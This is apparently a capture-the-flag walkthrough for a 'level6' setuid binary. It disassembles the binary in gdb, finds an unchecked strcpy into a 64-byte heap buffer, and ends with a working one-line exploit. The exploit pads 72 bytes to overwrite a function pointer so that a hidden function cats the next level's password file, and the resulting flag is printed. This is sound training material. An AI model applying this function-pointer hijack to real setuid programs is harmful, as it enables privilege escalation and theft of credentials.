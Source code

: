 Execute the *level6* binary:

```bash
./level6
```

```
Segmentation fault (core dumped)
```

```bash
./level6 test
```

```
Nope
```


> Note the *level6* binary need an argument.

```gdb
disass main
```

> Use __set disassembly-flavor intel__ command to set the intel syntax.

```gdb
Dump of assembler code for function main:
...
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>   ; first call to malloc (64 bytes)
...
   0x0804849c <+32>:	call   0x8048350 <malloc@plt>   ; second call to malloc (4 bytes)
...
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>   ; copy argv[1] in the first allocated address
...
   0x080484d0 <+84>:	call   eax                      ; call the function from the second allocated address
...                                                     ; by default 0x8048468 (m function)
End of assembler dump.
```

Check the default called *m* function:

```gdb
disass m
```

```
Dump of assembler code for function m:
...
   0x0804846e <+6>:	    mov    DWORD PTR [esp],0x80485d1    ; retrieve the "Nope" string
   0x08048475 <+13>:	call   0x8048360 <puts@plt>         ; call puts for print the "Nope" string
...
End of assembler dump.
```

> *x/s 0x80485d1* to display the string printed.

> Here the *m* function is not interesting.

Check for other interisting functions, maybe for replace the *m* function:

```gdb
info functions
```

```
All defined functions:

...
0x08048454  n
0x08048468  m
0x0804847c  main
...
```

Check the *n* function:

```gdb
disass n
```

```
Dump of assembler code for function n:
...
   0x0804845a <+6>:	    mov    DWORD PTR [esp],0x80485b0    ; retrieve the "/bin/cat /home/user/level7/.pass" string
   0x08048461 <+13>:	call   0x8048370 <system@plt>       ; call puts for print the 
...                                                         ; "/bin/cat /home/user/level7/.pass" string
End of assembler dump.
```

This function *n* at the address __0x08048454__ is now the goal.

For replace the *m* function call by the *n* one, the buffer/address returnd by malloc must be changed to the *n* function address instead of the *m* one.

```gdb
break *0x08048491
break *0x080484a1
run
info register eax
continue
info register eax
```

```
eax            0x804a008	134520840
eax            0x804a050	134520912
```

> The first address allocated is __0x804a008__ and the second one is __0x804a050__.

The malloc calls return always the same addresses because the [ASLR](https://www.techtarget.com/searchsecurity/definition/address-space-layout-randomization-ASLR#:~:text=Address%20space%20layout%20randomization%20(ASLR)%20is%20a%20memory%2Dprotection,executables%20are%20loaded%20into%20memory.) is not active:

```bash
file ./level6
```

```
./level6: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xb1a5ce594393de0f273c64753cede6da01744479, not stripped
```

> *LSB executable* means the program [doesn't implement ASLR](https://unix.stackexchange.com/questions/89211/how-to-test-whether-a-linux-binary-was-compiled-as-position-independent-code).

So the address returned by malloc is always __0x804a008__ for the first call and __0x804a050__ for the second one (because sizes are fixed to 64 bytes and 4 bytes).

> Note these to allocated addresses are neighbors and the second (with the *m* address) is after the first (first binary argument).

After check the man of the *strcpy* function, note the section *BUGS*:

```
If the destination string of a strcpy() is not large enough,  then  anything  might
happen.   Overflowing  fixed-length  string buffers is a favorite cracker technique
for taking complete control of the machine.  Any time a  program  reads  or  copies
data  into  a  buffer,  the program first needs to check that there's enough space.
This may be unnecessary if you can show that overflow is impossible, but  be  care‐
ful:  programs can get changed over time, in ways that may make the impossible pos‐
sible.
```

Because strcpy is not protected against overflows, lets write some padding bytes in the first allocation (reading the first binary argument) to reach the second one and put in the *n* function address for replace the *m* one.

Compute how many padding bytes/characters needed:

Second allocated address - first allocated address = 0x804a050 - 0x804a008 = 134520912 - 134520840 = __72 bytes__.

- Put the __72__ bytes/characters to reach the second allocated address containing the address of the function called at the end of the main.
- Put the address of the of the *n* function to overwrite the default one (*m*) (reversed because the stack is readed in the opposite way = \x54\84\x04\x08).

```bash
./level6 `echo -e '........................................................................\x54\x84\x04\x08'`
```

```
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```